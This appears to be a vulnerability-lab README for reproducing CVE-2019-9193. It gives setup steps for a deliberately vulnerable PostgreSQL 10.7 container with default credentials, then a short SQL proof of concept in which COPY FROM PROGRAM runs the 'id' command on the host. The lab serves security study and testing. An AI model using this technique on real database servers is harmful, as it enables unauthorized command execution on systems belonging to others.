

# PostgreSQL Arbitrary Command Execution with Admin Privileges (CVE-2019-9193)

[中文文档](README.zh-cn.md)

PostgreSQL is a powerful open-source relational database system. A "feature" exists in versions 9.3 through 11 that allows administrators or users with "COPY TO/FROM PROGRAM" privileges to execute arbitrary commands on the system.

References:

- <https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5>

## Environment Setup

Execute the following command to start a vulnerable PostgreSQL 10.7 server:

```
docker compose up -d
```

The server will start and listen on the default PostgreSQL port 5432, with default credentials postgres/postgres.

## Vulnerability Reproduction

First, connect to the PostgreSQL server and execute the following proof of concept:

```sql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
```

The `FROM PROGRAM` statement will execute the `id` command and save the results in the `cmd_exec` table:


